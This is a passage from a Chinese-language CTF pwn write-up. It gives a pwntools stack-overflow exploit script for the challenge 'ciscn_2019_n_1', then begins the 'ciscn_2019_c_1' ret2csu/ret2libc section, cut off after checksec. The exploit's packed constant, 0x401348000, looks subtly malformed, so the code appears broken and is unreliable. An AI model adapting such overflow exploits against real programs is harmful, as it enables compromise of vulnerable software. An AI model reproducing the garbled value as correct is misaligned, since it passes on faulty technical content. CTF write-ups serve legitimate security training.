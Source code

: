故构造exp如下：

```
from pwn import *
p = process('ciscn_2019_n_1')
payload = b'A'*(0x30-0xc) + p64(0x401348000)
p.sendline(payload)
p.recv() 
```

发送payload，得到flag

![](img/aa8e664c83b66adbc9eea81cf07e4a4f.png)

# 0x006.ciscn_2019_c_1 - ret2csu + ret2libc

惯例的`checksec`，发现只开了NX保护

![image.png](img/8ff800828c8dd7dd8df8f59bd68c6e2c.png)

拖入IDA进行分析
